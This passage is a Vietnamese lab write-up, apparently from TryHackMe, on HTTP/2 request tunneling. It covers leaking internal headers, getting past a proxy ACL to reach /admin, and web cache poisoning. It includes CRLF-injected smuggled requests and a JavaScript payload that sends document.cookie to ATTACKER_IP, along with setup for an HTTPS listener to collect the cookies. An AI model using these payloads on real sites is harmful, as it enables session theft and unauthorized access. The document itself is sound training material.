

Bắt request qua Burp Suite, ta thấy ứng dụng sử dụng phương thức `POST` trên giao thức HTTP/2, và từ khóa tìm kiếm được truyền qua tham số `q` trong phần thân (body).



**2. Chuẩn bị Request Chim mồi**
Chuyển request sang công cụ Repeater để chỉnh sửa. Để ép hệ thống Backend (sử dụng HTTP/1.1) kết thúc request đầu tiên sớm, ta cần dọn sạch phần thân và đặt lại kích thước:
*   Xóa bỏ hoàn toàn tham số `q` và các dữ liệu ở phần body.
*   Chỉnh sửa giá trị `Content-Length: 0`. *(Lưu ý: Cần tắt tính năng tự động cập nhật Content-Length của Burp Suite)*.



**3. Tiêm Payload Request Lậu (CRLF Injection)**
Sử dụng công cụ Inspector của Burp Suite, ta chèn thêm một header tùy chỉnh (ví dụ: `test`) và sử dụng tổ hợp phím `SHIFT + ENTER` để tạo các ký tự ngắt dòng (`\r\n`) thực sự, nhằm dựng lên một Request thứ 2 ẩn giấu bên trong:

```http
test\r\n
Host: 10.48.159.117:8100\r\n
\r\n
POST /hello HTTP/1.1\r\n
Host: 10.48.159.117:8100\r\n
Content-Length: 100\r\n
Content-Type: application/x-www-form-urlencoded\r\n
\r\n
q=
```
*(Ghi chú: Trong cấu trúc trên, ký tự `\r\n` được viết ra để minh họa vị trí bạn cần nhấn `SHIFT + ENTER` trong Inspector. Nó là ký tự điều khiển nhị phân ẩn, không thể gõ trực tiếp dạng văn bản).*



Sau khi nhấn Apply trong Inspector, request sẽ chuyển sang trạng thái **kettled**, xác nhận việc tiêm ký tự điều khiển thành công và không thể chỉnh sửa ở tab Raw được nữa.

**4. Kích hoạt và Trích xuất Dữ liệu**
Thực hiện bấm Send lần thứ nhất để đẩy payload qua Proxy.



Ứng dụng trả về thông báo: `Your search for  did not match any documents`. 

**Tại sao lần gửi đầu tiên lại trả về kết quả rỗng và ta phải gửi tiếp?** 
Lý do là gói tin của bạn đã bị lỗi dịch thuật của Proxy bẻ làm hai ở Backend:
*   **Request 1 (Chim mồi):** Kết thúc ngay ở `Content-Length: 0`. Backend xử lý xong và trả về kết quả rỗng ngay lập tức (chính là màn hình bạn đang thấy).
*   **Request 2 (Request lậu):** Chứa cụm `q=` đang bị treo lại ở Backend. Do bạn đã cấu hình `Content-Length: 100`, Backend đang há miệng chờ nhận thêm dữ liệu cho đủ 100 byte mới chịu xử lý. Các Internal Header do Proxy chèn thêm (như `host`, `x-thm-flag`) đã rơi gọn vào phần thân của Request 2 này nhưng vẫn đang kẹt trong "đường ống".

Ngay lập tức, bấm Send lần thứ hai để bơm tiếp dữ liệu vào đường ống đang treo.



Khối dữ liệu mới này sẽ lấp đầy mức dung lượng mà Request 2 đang chờ. Backend lập tức chốt gói tin, đem toàn bộ dữ liệu phía sau tham số `q=` (bao gồm cả các Internal Header bí mật) đi thực thi tìm kiếm. Kết quả là toàn bộ cấu trúc bị lộ (leak) và in thẳng lên giao diện phản hồi của lần gửi thứ hai.

**Sơ đồ luồng dữ liệu (Tunneling & Reflection)**

```text
       [ MÁY CỦA BẠN ]
              || 
              || Gửi 1 gói tin HTTP/2 
              || (Đã lén gài sẵn các ký tự ngắt dòng \r\n)
              ||
==============||=================================================
|     [ FRONTEND PROXY ]                                        |
|  1. Dịch từ HTTP/2 sang HTTP/1.1                              |
|  2. Bị các ký tự \r\n bẻ gãy dữ liệu thành 2 Request          |
|  3. Chèn Internal Header (host, x-thm-flag) vào đuôi Request  |
=================================================================
              || 
              ||  <--- ĐƯỜNG ỐNG RIÊNG (PER-USER TUNNEL) --->
              ||  (Không bị lẫn với người dùng khác)
              ||
    .---------||-----------------------------------------.
    |   [ REQUEST 1 - CHIM MỒI ]                         |
    |   ...                                              |
    |   Content-Length: 0                                |
    |   (Backend đọc đến đây là coi như xong Request 1)  |
    '----------------------------------------------------'
              ||
              ||  <--- Ranh giới ngắt dòng do bạn tạo ra
              ||
    .---------||-----------------------------------------.
    |   [ REQUEST 2 - REQUEST LẬU (Bị treo ở lần gửi 1)  |
    |   POST /hello HTTP/1.1                             |
    |   Content-Length: 100                              |
    |                                                    |
    |   [ PHẦN THÂN (BODY) ]                             |
    |   q=                                               |
    |         +----------------------------------+       |
    |         | host: 10.48.159.117:8100         | <==== | == Các Internal Header 
    |         | x-thm-flag: THM{...}             |       |    bị rớt thẳng vào đây!
    |         +----------------------------------+       |
    '----------------------------------------------------'
              ||
              \/
      [ MÁY CHỦ BACKEND ] 
      Nhận đủ byte ở lần gửi 2, lấy toàn bộ cục "q=..." 
      đem đi tìm kiếm và in kết quả chứa flag ra màn hình.
```

## **6. Vượt qua các giới hạn của Frontend Proxy (Bypassing Frontend Restrictions)**

**Nguyên lý hoạt động:**
*   Trong nhiều hệ thống, Frontend Proxy đóng vai trò như người gác cổng, thực thi các quy tắc kiểm soát truy cập (Access Control List - ACL) nhằm ngăn chặn người dùng từ Internet truy cập vào các tài nguyên nhạy cảm trên máy chủ Backend (ví dụ: trang quản trị `/admin`). Nếu bạn cố gắng truy cập trực tiếp, Proxy sẽ trả về lỗi `403 Forbidden`.



*   Tuy nhiên, thông qua lỗ hổng HTTP/2 Request Tunneling, kẻ tấn công có thể lén lút đưa (smuggle) một request cấm qua mặt Proxy mà không bị phát hiện.

**Kịch bản khai thác:**



*   **Request Chim mồi:** Kẻ tấn công gửi một HTTP/2 request tới một đường dẫn hợp lệ được Proxy cho phép (ví dụ: `POST /hello`). Vì request vỏ bọc này không vi phạm luật ACL, Proxy sẽ để nó đi qua.


<br>


*   **Request Lậu (Smuggled Request):** Bên trong request chim mồi (thông qua kỹ thuật chèn header `Foo`), kẻ tấn công giấu một lệnh truy cập trái phép (ví dụ: `GET /admin HTTP/1.1\r\n X-Fake: a`).
*   **Khi tới Backend:** Lỗi dịch thuật xảy ra, gói tin bị bẻ làm hai. Backend sẽ bỏ qua request chim mồi và tiến hành xử lý request thứ hai trỏ thẳng tới `/admin`.
*   *Lưu ý về thao tác:* Tương tự các kỹ thuật trước, request lậu được cố tình thiết kế chưa hoàn chỉnh (bằng cách dùng header mồi `X-Fake:`), do đó ta cần bấm gửi request 2 lần liên tiếp để nhận được phản hồi từ trang `/admin`.



Hoặc ta có thể gửi request chứa payload lần thứ 1, sau đó gửi 1 request POST `/hello` bình thường lần thứ 2 kết quả cũng tương tự


<br>


**Tại sao ưu tiên dùng phương thức POST?**
*   Proxy thường có cơ chế bộ nhớ đệm (caching). Nếu ta dùng request chim mồi là phương thức `GET`, Proxy có thể trả về luôn kết quả từ bộ nhớ đệm mà không thèm gửi request đó xuống Backend. Lúc này cuộc tấn công sẽ thất bại do payload không đến được đích.
*   Ngược lại, phương thức `POST` thường không bị lưu vào bộ nhớ đệm, đảm bảo request vỏ bọc cùng toàn bộ "hàng lậu" bên trong chắc chắn được chuyển tiếp xuống Backend.
*   *Lưu ý mở rộng:* Phương pháp "dùng một request hợp lệ để tuồn một request cấm" này không chỉ vượt mặt được ACL của Proxy mà đôi khi còn lách qua được cả các hệ thống Tường lửa Ứng dụng Web (WAF).

## **7. HTTP/2 Request Tunneling: Web Cache Poisoning (Đầu độc bộ nhớ đệm)**

**Cơ chế hoạt động:**
*   Mặc dù Request Tunneling trên cấu hình Per-user connection không cho phép ảnh hưởng trực tiếp đến người dùng khác, nhưng ta có thể dùng nó để đầu độc bộ nhớ đệm (cache) trên Proxy, từ đó gián tiếp tấn công toàn bộ người dùng truy cập trang web.
*   Mục tiêu: Đánh lừa Proxy để nó gán URL hợp lệ (ví dụ: `/page1`) vào nội dung của một file khác (ví dụ: `/page2`). Từ đó, bất kỳ ai truy cập `/page1` cũng sẽ bị trả về nội dung của `/page2`.
*   *Lưu ý:* Việc đầu độc Cache rất nguy hiểm, có thể làm sập hệ thống thật nếu làm sai. Trong bài lab này, bộ nhớ đệm được cấu hình xóa sau 30 giây, giúp việc thực hành an toàn hơn.

**Các phương pháp đưa payload lên hệ thống:**
Để đầu độc thành công, ta cần nội dung độc hại phải có mặt sẵn trên cùng một website. Ta có thể lợi dụng:
1.  Tính năng tải file lên (Upload functionality).
2.  Các trang có tính năng phản hồi (reflect) nội dung (ví dụ: Blog).
3.  Lỗ hổng Open redirects (không đề cập sâu trong bài lab).
Trong bài lab này, ứng dụng cung cấp sẵn tính năng upload file tại `.../upload`.

**Thực thi tấn công:**

**Bước 1: Phân tích mục tiêu và chuẩn bị Payload**
*   Mục tiêu là đánh cắp cookie của nạn nhân truy cập trang chủ (`/`). Phân tích mã nguồn cho thấy trang chủ tự động thực thi hàm `showText()` từ file `/static/text.js`



*   Ta tạo một file javascript độc hại (`myjs.js`) với nội dung lấy cắp cookie và gửi về máy chủ của kẻ tấn công (AttackBox).

```javascript
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
       document.getElementById("demo").innerHTML = xhttp.responseText;
    }
};
xhttp.open("GET", "https://ATTACKER_IP:8002/?c="+document.cookie, true);
xhttp.send();
```

*   *Lưu ý bảo mật:* Vì trang web đang chạy trên HTTPS (HTTP/2 mặc định), file javascript của ta cũng bắt buộc phải đẩy dữ liệu về một máy chủ HTTPS. Nếu dùng HTTP thông thường, trình duyệt sẽ chặn hành động này.
*   Upload file `myjs.js` lên server thông qua tính năng upload của ứng dụng. File sẽ nằm ở đường dẫn: `/static/uploads/myjs.js`.

**Bước 2: Đầu độc Cache**
*   Ta gửi một gói tin HTTP/2 đã tiêm CRLF, nhắm tới đường dẫn `/static/text.js`.
*   Bên trong payload, ta lén nhồi một Request Lậu nhắm tới file mã độc vừa upload: `GET /static/uploads/myjs.js HTTP/1.1`.
*   *Quan trọng:* Thêm header `Pragma: no-cache` vào request để ép Proxy bỏ qua bộ nhớ đệm cũ và gửi yêu cầu thẳng xuống Backend.
*   Tại Backend, hệ thống nhận được 2 request nhưng Proxy chỉ hy vọng 1 response. Backend xử lý cả hai và tạo ra một hàng đợi phản hồi (Response Queue).



*   Ta gửi tiếp một request thứ 2 tới `/static/text.js`.
*   Lúc này, Proxy bị nhầm lẫn dữ liệu trong hàng đợi. Nó lấy nội dung của file mã độc `myjs.js` (đang nằm sẵn trong Response Queue) trả về cho yêu cầu `/static/text.js`, và ghi thẳng sự kết hợp sai lệch này vào bộ nhớ đệm. 



*   Kiểm tra kết quả: Sử dụng lệnh `curl -kv .../static/text.js` (không dùng trình duyệt thật vì trình duyệt có cache cục bộ) để xác nhận mã độc đã đè lên nội dung gốc.

**Bước 3: Hứng dữ liệu (Cookie)**
*   Trên máy tính tấn công (AttackBox), tạo chứng chỉ SSL (SSL certificate) để thiết lập một server HTTPS.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/C=XX/ST=StateName/L=CityName/O=CompanyName/OU=CompanySectionName/CN=CommonNameOrHostname"
```

*   Sử dụng Python viết một script nhỏ (`https.py`) để chạy server HTTPS ở cổng 8002, dùng chung thư mục với chứng chỉ vừa tạo.

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

httpd = HTTPServer(('0.0.0.0', 8002), BaseHTTPRequestHandler)

# Create SSL context
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile="cert.pem", keyfile="key.pem")

